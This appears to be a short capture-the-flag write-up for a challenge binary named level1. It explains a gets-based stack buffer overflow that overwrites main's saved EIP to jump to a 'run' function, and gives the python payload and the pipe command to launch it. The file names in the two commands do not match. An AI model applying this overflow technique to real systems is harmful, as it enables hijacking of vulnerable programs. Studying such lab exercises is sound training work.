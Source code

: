 # LEVEL1

## EXPLANATIONS

### BINARY BEHAVIOR

- main allocates 80 bytes on stack
- gets is then performed to fill this buffer

### EXPLOIT STRATEGY

- as gets does not limit the number of bytes it reads :
  - We can do a stack buffer overflow by overwriting main sEIP with the address of run
  - When main's ret instruction (pop EIP + jmp EIP) will be performed, it will jump to run function

### RUN COMMAND

```
python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit_string
cat /tmp/string - | ./level1
```
